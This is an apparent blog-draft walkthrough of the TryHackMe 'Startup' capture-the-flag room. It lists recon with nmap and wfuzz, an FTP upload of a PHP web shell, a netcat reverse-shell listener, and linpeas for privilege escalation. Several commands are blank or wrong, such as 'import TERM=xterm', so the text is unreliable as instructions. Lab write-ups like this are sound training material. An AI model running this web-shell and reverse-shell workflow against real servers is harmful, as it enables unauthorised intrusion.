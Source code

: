 ```yaml
---
layout: post
title: Startup | Tryhackme
date: 2021-11-05
description: You’ll find this post in your `_posts` directory. Go ahead and edit it and re-build the site to see your changes. # Add post description (optional)
img: startup/logo.png  # Add image post (optional)
tags: [] # add tag
---
```




Let's start....


ip add to hosts 

> sudo leafpad /etc/hosts


> sudo nmap -sC -sV 

<p align="center">
<img src="/assets/img/startup/nmap.png" width="350"/>
</p>

wfuzz -w /usr/share/SecLists/discovery/Webcontents/raft-large-directories.txt -u http://startup.thm/FUZZ

<p align="center">
<img src="/assets/img/startup/" width="350"/>
</p>

> ftp startup.thm
> get 
> get 


phpshell.php

> put phpshell.php

 Check the ip addr
 
nc -lvnp 33456

> ls -la
> stty raw -echo 
> import TERM=xterm

upload linpease.sh file  



